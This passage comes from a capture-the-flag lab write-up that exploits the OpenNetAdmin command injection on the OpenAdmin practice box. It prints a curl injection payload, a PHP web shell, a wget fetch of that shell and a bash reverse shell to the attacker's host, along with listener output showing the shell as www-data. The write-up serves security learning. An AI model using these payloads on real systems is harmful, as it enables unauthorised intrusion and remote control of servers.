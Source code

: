 ```none
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"\nBEGIN\";id;echo \"END\"&xajaxargs[]=ping" "10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

I thought I would write a simple Python version of the same exploit. I am trying to continue upskilling in web exploits and using the `requests` library - so thought it was a fun exercise. The script [`ona`](exploits/one.py) is available in the exploits folder of this writeup. I tried to make the exploit a little easier to run, and added in some `payload` options - so it was obvious where to put the payload.

Anyway, after getting code execution, I uploaded a simple PHP file to the webserver. I thought this would be a simple method to get some code execution of specific commands. Started by creating the PHP file.

```none
echo '<?php system($_REQUEST["cmd"]) ?>' > cmd.php
```

Started a Python HTTP server on my machine, and used `wget` on the target to fetch the file.

```none
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.171 - - [04/Aug/2021 14:26:31] "GET /cmd.php HTTP/1.1" 200 -
```

Then browse to the location of the uploaded PHP file, using the following URL:

```none
http://10.10.10.171/ona/cmd.php?cmd=id
```

Intercepted a request to this page, send it to Repeater in Burp, and used a normal bash reverse shell to get a shell on the target.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'
```

Success!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.171] 44978
bash: cannot set terminal process group (994): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@openadmin:/opt/ona/www$ 
```

We got a shell as `www-data`. Time to start some privesc and more enumeration!

## Privesc: `www-data` to `jimmy`
